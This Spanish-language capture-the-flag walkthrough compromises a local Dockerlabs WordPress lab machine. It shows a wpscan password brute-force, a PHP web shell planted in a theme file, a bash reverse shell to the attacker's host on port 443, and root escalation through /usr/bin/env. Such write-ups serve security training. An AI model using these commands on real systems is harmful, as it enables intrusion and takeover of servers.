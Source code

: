 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh walkingcms.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
<ins>La dirección IP de la máquina a vulnerar siempre es la 172.17.0.2</ins>.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/87016dbc-b099-4e2a-91f1-eb2ea00839f9)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/2b40400c-b8a9-42af-b6fd-40076e7f34db)

Podemos ver que se encuentra abierto el puerto ***80***, correspondiente al servicio ***HTTP***.

Vamos a intentar atacar mediante HTTP. Nos dirigimos al navegador y en el buscador ponemos http://172.17.0.2:80.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/87a25bee-f4ae-4562-bed1-f63a6f416fdf)

Vamos a obtener los subdirectorios existentes en la página web para conseguir visualizar otras páginas que puedan darnos más información.
Debido a que revisando el código fuente de la página y mediante el uso del comando ***ffuf*** para realizar fuzzing no detectamos nuevas páginas, vamos a emplear un comando similar llamado ***gobuster***, con el que obtendremos las páginas existentes en distintos formatos. En este caso, vamos a buscar aquellas que tengan extensión .*html*, .*php*, .*sh* y .*py*.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/d00434fd-ebca-4a97-9170-b7fda47694b5)

Hemos encontrado un subdirectorio web llamado "wordpress". Podemos visualizar su contenido en busca de algun detalle o alguna pista para lograr vulnerar mediante el HTTP a la máquina que queremos atacar.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/b17aa335-a198-4a34-8f16-89998adbd10e)

Al acceder a la dirección http://172.17.0.2/wordpress nos sale esta página de inicio. Miramos aquello en lo que podamos rebuscar, por ejemplo, probamos a ver que ocurre si hacemos clic donde pone "¡Hola, mundo!" o en "Página de ejemplo".

Al pulsar en el texto "¡Hola, mundo!":

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/2218fc2a-9f6a-47fc-8103-cfb89710770a)

Vemos que el usuario que ha escrito esta entrada es el usuario **mario**.

Al pulsar en el texto "Página de ejemplo":

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/31364630-32ea-45a1-96df-e1f68ca3995d)

Parece que hay otro enlace insertado en el texto ("tu escritorio"), comprobamos hacia donde nos redirige:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/bbd12af0-4d40-49bb-8c0a-009c29c014d3)

El enlace nos ha llevado al formulario de inicio de sesión de WordPress, por lo que hay que obtener la contraseña del usuario mario para acceder a su panel de WordPress.

Para realizar un ataque de fuerza bruta en WordPress existe un comando en Kali Linux llamado ***wpscan***, que se encarga de escanear las vulnerabilidades de un sitio web creado con WordPress. La línea de código que utilizaremos en la terminal para el ataque de fuerza bruta es **wpscan --url 172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/b4db0c25-c05b-419d-9084-9cadf1305bea)

Podemos ver que la ejecución del comando nos devuelve unas claves válidas para el formulario de Login de WordPress:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/938f03ec-de16-4922-a0e9-eef32d2202ce)

La contraseña del usuario "mario" es "love". Probamos las credenciales en el formulario.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/f1c534ca-960a-434f-a7fd-d0d39bbab1cf)

Estamos dentro del panel de administración del sitio web. Hay que buscar ahora la manera de acceder a la máquina desde el sitio web.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/73c0ddf8-9174-4402-8485-74e126c3f5c9)

Podemos intentar realizar una reverse shell desde WordPress mediante un plugin que nos permita la edición de plantillas. Para ello nos vamos a **Apariencia>Theme Code Editor**.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/0514ddfc-87b5-4396-acc8-817eb715b792)

Dentro de esta ventana, en **Theme Files** seleccionamos *index.php*:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/08d65946-12fe-4dab-a136-93a0162f7664)

Editamos el código existente e insertamos lo siguiente: **<?php echo "<pre>". shell_exec($_REQUEST['cmd']). "</pre>" ?>**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/f49759eb-c2d0-4c73-ada0-32f7ead3abc3)

Ahora si nos dirigimos a visualizar el archivo index.php en el navegador escribimos la dirección http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php y seguido del index.php escribimos la cadena de texto "**?cmd=**" para poder ejecutar cualquier comando de consola y ver la salida de este en la página. Esto es lo que se nos muestra al ejecutar el comando whoami:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/a0233513-5a48-495c-bc74-713bcd3c007d)

Somos el usuario www-data. Sabiendo que podemos ejecutar cualquier comando, vamos a realizar una reverse shell utilizando la página web [https://www.revshells.com/](https://www.revshells.com/).

Nos ponemos en escucha por el puerto 443:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/ebe01817-867c-4993-824e-282b4d583439)

Una vez tenemos la reverse shell (en mi caso, *bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'*) tendremos que descodificarlo para transformarlo en un formato válido para la dirección URL. Para ello usamos el Decoder disponible en Burp Suite y copiamos la cadena generada para ejecutar la reverse shell.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/f2c93360-b174-4cc2-bed3-196178cf2212)

Y una vez ejecutamos esto, la página se queda cargando, por lo que al mirar en nuestra terminal abierta vemos que la reverse shell ha funcionado correctamente:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/265a7822-57f1-45f5-b206-7ee3d04a4d9d)

Vamos a realizar una escalada de privilegios para acceder como el usuario root:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/1cf48d6a-e447-4491-956d-fd88574a47e1)

Vemos que el usuario www-data puede ejecutar estos archivos binarios. En este caso, nos interesa realizar la escalada de privilegios mediante el binario ***/usr/bin/env***.
Escribimos el comando **/usr/bin/env /bin/bash -p** para lograr el acceso como el usuario root.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/9a4ec453-e1ca-44c3-8a1e-34271cb13a19)

Hemos logrado acceder como el usuario root, por lo que ahora podemos realizar cualquier acción en el sistema.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/796f2ec8-acc0-4b0d-bb06-abfe42262359)
